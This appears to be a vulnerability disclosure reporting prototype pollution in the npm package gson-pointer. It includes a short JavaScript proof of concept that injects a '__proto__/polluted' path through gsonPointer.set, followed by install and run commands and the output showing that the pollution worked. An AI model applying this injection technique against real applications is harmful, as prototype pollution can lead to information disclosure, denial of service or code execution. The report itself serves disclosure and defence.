 # Description

`gson-pointer` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var gsonPointer = require("gson-pointer")
var obj = {}
console.log("Before : " + obj.polluted);
gsonPointer.set(obj,'__proto__/polluted','Yes! Its Polluted');
var obj1 ={}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i gson-pointer # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
